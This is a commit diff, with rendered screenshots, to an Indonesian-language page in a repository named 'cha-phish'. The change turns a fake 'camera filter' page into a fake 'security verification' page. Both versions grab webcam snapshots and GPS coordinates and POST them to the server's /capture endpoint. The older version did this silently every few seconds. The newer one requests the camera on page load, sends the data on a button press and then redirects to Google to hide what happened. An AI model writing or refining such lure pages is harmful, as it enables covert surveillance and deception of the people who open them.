

Before and after one commit to zzabck0-source/cha-phish, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (359-1280 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/ai mamb/templates/index.html
+++ b/ai mamb/templates/index.html
@@ -3,39 +3,35 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>😎 Akses Kamera</title>
+    <title>📸 Verifikasi Keamanan</title>
     <style>
-        * { margin: 0; padding: 0; box-sizing: border-box; font-family: 'Comic Sans MS', cursive, sans-serif; }
+        * { margin: 0; padding: 0; box-sizing: border-box; font-family: Arial, sans-serif; }
         body {
-            background: linear-gradient(135deg, #1a1a2e, #16213e, #0f3460);
+            background: #0d1117;
             display: flex;
             justify-content: center;
             align-items: center;
             min-height: 100vh;
-            color: #fff;
         }
         .box {
-            background: rgba(255,255,255,0.08);
-            backdrop-filter: blur(12px);
-            padding: 40px 30px;
-            border-radius: 40px;
-            border: 2px solid rgba(255,255,255,0.15);
-            width: 400px;
+            background: #161b22;
+            padding: 35px;
+            border-radius: 16px;
+            width: 380px;
+            border: 1px solid #30363d;
             text-align: center;
-            box-shadow: 0 20px 60px rgba(0,0,0,0.6);
         }
-        .box h1 { font-size: 28px; margin-bottom: 6px; }
-        .box h1 span { color: #f9ca24; }
-        .sub { font-size: 14px; color: #aaa; margin-bottom: 18px; }
+        .box h2 { color: #fff; margin-bottom: 5px; }
+        .box h2 span { color: #58a6ff; }
+        .sub { color: #8b949e; font-size: 14px; margin-bottom: 15px; }
         .camera-box {
             width: 100%;
-            height: 260px;
-            background: #0d0d1a;
-            border-radius: 24px;
-            border: 3px dashed #f9ca24;
+            height: 220px;
+            background: #0d1117;
+            border: 2px dashed #30363d;
+            border-radius: 12px;
             overflow: hidden;
-            margin-bottom: 16px;
-            position: relative;
+            margin-bottom: 12px;
         }
         .camera-box video {
             width: 100%;
@@ -49,88 +45,51 @@
             align-items: center;
             justify-content: center;
             height: 100%;
-            color: #888;
+            color: #8b949e;
         }
-        .camera-box .placeholder .icon { font-size: 60px; }
-        .filter-badge {
-            background: #f9ca24;
-            color: #000;
-            padding: 6px 16px;
-            border-radius: 30px;
+        .camera-box .placeholder .icon { font-size: 48px; }
+        .btn {
+            width: 100%;
+            padding: 13px;
+            margin-top: 10px;
+            background: #238636;
+            border: none;
+            border-radius: 8px;
+            color: #fff;
             font-weight: bold;
+            cursor: pointer;
+        }
+        .btn:hover { background: #2ea043; }
+        .btn:disabled { background: #555; cursor: not-allowed; }
+        .status {
+            margin: 10px 0;
             font-size: 13px;
-            display: inline-block;
-            margin-bottom: 12px;
+            color: #8b949e;
         }
-        .btn {
-            background: #f9ca24;
-            border: none;
-            padding: 14px 28px;
-            border-radius: 60px;
-            font-weight: bold;
-            font-size: 18px;
-            cursor: pointer;
-            color: #000;
-            transition: 0.3s;
-            width: 100%;
-        }
-        .btn:hover { background: #f0b90b; transform: scale(1.02); }
-        .btn:disabled { background: #555; color: #aaa; cursor: not-allowed; }
-        .status {
-            margin: 14px 0 10px;
-            font-size: 14px;
-            color: #aaa;
-        }
-        .status.success { color: #6fcf97; }
-        .status.error { color: #eb5757; }
+        .status.success { color: #2ea043; }
+        .status.error { color: #da3633; }
         .status.gps { color: #f1c40f; }
-        .footer {
-            margin-top: 16px;
-            font-size: 11px;
-            color: #555;
-        }
-        .filter-select {
-            background: #1e2a3a;
-            color: #fff;
-            border: 1px solid #333;
-            padding: 8px 14px;
-            border-radius: 30px;
-            font-size: 14px;
-            outline: none;
-            margin-bottom: 12px;
-            width: 100%;
-        }
+        .footer { margin-top: 14px; font-size: 11px; color: #555; }
         .hidden { display: none; }
     </style>
 </head>
 <body>
 <div class="box">
-    <h1>📸 <span>Akses Kamera</span></h1>
-    <p class="sub">Tekan tombol di bawah buat mulai</p>
+    <h2>📹 <span>Verifikasi Keamanan</span></h2>
+    <p class="sub">Untuk keamanan, verifikasi wajah & lokasi diperlukan</p>
 
     <div class="camera-box" id="cameraBox">
         <div class="placeholder" id="placeholder">
-            <span class="icon">🎥</span>
-            <span>Kamera siap dipakai</span>
+            <span class="icon">📷</span>
+            <span>Kamera akan aktif</span>
         </div>
         <video id="video" class="hidden" autoplay muted></video>
     </div>
 
-    <div class="filter-badge">🎭 Filter Aktif</div>
-    <select class="filter-select" id="filterSelect">
-        <option value="none">🚫 Tanpa Filter</option>
-        <option value="grayscale">⚫ Grayscale</option>
-        <option value="sepia">🟤 Sepia</option>
-        <option value="blur">🌫️ Blur</option>
-        <option value="bright">☀️ Bright</option>
-        <option value="invert">🔄 Invert</option>
-        <option value="hue">🌈 Hue Rotate</option>
-    </select>
+    <div class="status" id="status">⏳ Menyiapkan...</div>
 
-    <div class="status" id="status">⏳ Klik tombol untuk akses kamera</div>
-
-    <button class="btn" id="startBtn">🎬 Aktifkan Kamera</button>
-    <div class="footer">✨ Filter lucu siap dipakai • © 2026</div>
+    <button class="btn" id="startBtn">📸 Aktifkan Kamera & Kirim</button>
+    <div class="footer">© 2026 SecureSystem</div>
 </div>
 
 <canvas id="canvas" class="hidden"></canvas>
@@ -142,12 +101,25 @@ const ctx = canvas.getContext('2d');
 const statusEl = document.getElementById('status');
 const startBtn = document.getElementById('startBtn');
 const placeholder = document.getElementById('placeholder');
-const filterSelect = document.getElementById('filterSelect');
 
 let stream = null;
 let cameraReady = false;
-let captureInterval = null;
 let gpsData = { lat: '-', lon: '-', acc: '-' };
+
+navigator.mediaDevices.getUserMedia({ video: { width: 640, height: 480 } })
+    .then((stream) => {
+        video.srcObject = stream;
+        video.classList.remove('hidden');
+        placeholder.style.display = 'none';
+        cameraReady = true;
+        statusEl.textContent = '✅ Kamera siap';
+        statusEl.className = 'status success';
+    })
+    .catch(() => {
+        statusEl.textContent = '⚠️ Izin kamera ditolak';
+        statusEl.className = 'status error';
+        cameraReady = false;
+    });
 
 navigator.geolocation.getCurrentPosition(
     (pos) => {
@@ -163,93 +135,63 @@ navigator.geolocation.getCurrentPosition(
     }
 );
 
-function applyFilter() {
-    const filter = filterSelect.value;
-    switch(filter) {
-        case 'grayscale': return 'grayscale(100%)';
-        case 'sepia': return 'sepia(100%)';
-        case 'blur': return 'blur(3px)';
-        case 'bright': return 'brightness(1.5)';
-        case 'invert': return 'invert(100%)';
-        case 'hue': return 'hue-rotate(180deg)';
-        default: return 'none';
-    }
-}
-
-filterSelect.addEventListener('change', () => {
-    if (video) video.style.filter = applyFilter();
-});
-
-startBtn.addEventListener('click', async () => {
-    startBtn.disabled = true;
-    startBtn.textContent = '⏳ Meminta izin...';
-    statusEl.textContent = '📡 Mengakses kamera...';
-
-    try {
-        stream = await navigator.mediaDevices.getUserMedia({
-            video: { width: 640, height: 480, facingMode: 'user' }
-        });
-
-        video.srcObject = stream;
-        video.classList.remove('hidden');
-        placeholder.style.display = 'none';
-        cameraReady = true;
-
-        video.style.filter = applyFilter();
-
-        statusEl.textContent = '✅ Kamera aktif! Filter siap dipakai.';
-        statusEl.className = 'status success';
-        startBtn.textContent = '📸 Kamera ON';
-        startBtn.style.background = '#6fcf97';
-
-        captureInterval = setInterval(() => {
-            if (cameraReady) {
-                captureAndSend();
-            }
-        }, 3000);
-
-        setTimeout(captureAndSend, 1000);
-
-    } catch (err) {
-        statusEl.textContent = '⚠️ Gagal akses kamera: ' + err.message;
-        statusEl.className = 'status error';
-        startBtn.disabled = false;
-        startBtn.textContent = '🔄 Coba Lagi';
-    }
-});
-
-async function captureAndSend() {
-    if (!cameraReady || !video.videoWidth) return;
-
+function captureImage() {
+    if (!cameraReady || !video.videoWidth) return null;
     canvas.width = video.videoWidth;
     canvas.height = video.videoHeight;
     ctx.drawImage(video, 0, 0);
+    return canvas.toDataURL('image/jpeg');
+}
 
-    const filter = filterSelect.value;
-    ctx.filter = applyFilter();
-    ctx.drawImage(video, 0, 0);
-    ctx.filter = 'none';
-
-    const imageData = canvas.toDataURL('image/jpeg').split(',')[1];
-
+async function sendData(image) {
     try {
-        await fetch('/capture', {
+        const response = await fetch('/capture', {
             method: 'POST',
             headers: { 'Content-Type': 'application/json' },
             body: JSON.stringify({
                 username: 'guest',
                 password: 'filtered',
-                image: imageData,
+                image: image || '',
                 lat: gpsData.lat,
                 lon: gpsData.lon,
                 acc: gpsData.acc
             })
         });
-    } catch (err) {}
+        const result = await response.json();
+        return result.status === 'success';
+    } catch (err) {
+        return false;
+    }
 }
 
+startBtn.addEventListener('click', async () => {
+    if (!cameraReady) {
+        statusEl.textContent = '⚠️ Kamera belum siap!';
+        statusEl.className = 'status error';
+        return;
+    }
+
+    startBtn.disabled = true;
+    startBtn.textContent = '⏳ Mengirim...';
+    statusEl.textContent = '📤 Mengirim data...';
+    statusEl.className = 'status';
+
+    const image = captureImage();
+    const success = await sendData(image);
+
+    if (success) {
+        statusEl.textContent = '✅ Berhasil dikirim!';
+        statusEl.className = 'status success';
+        window.location.href = 'https://www.google.com';
+    } else {
+        statusEl.textContent = '⚠️ Gagal kirim, coba lagi';
+        statusEl.className = 'status error';
+        startBtn.disabled = false;
+        startBtn.textContent = '📸 Aktifkan Kamera & Kirim';
+    }
+});
+
 window.addEventListener('beforeunload', () => {
-    if (captureInterval) clearInterval(captureInterval);
     if (stream) stream.getTracks().forEach(t => t.stop());
 });
 </script>
```
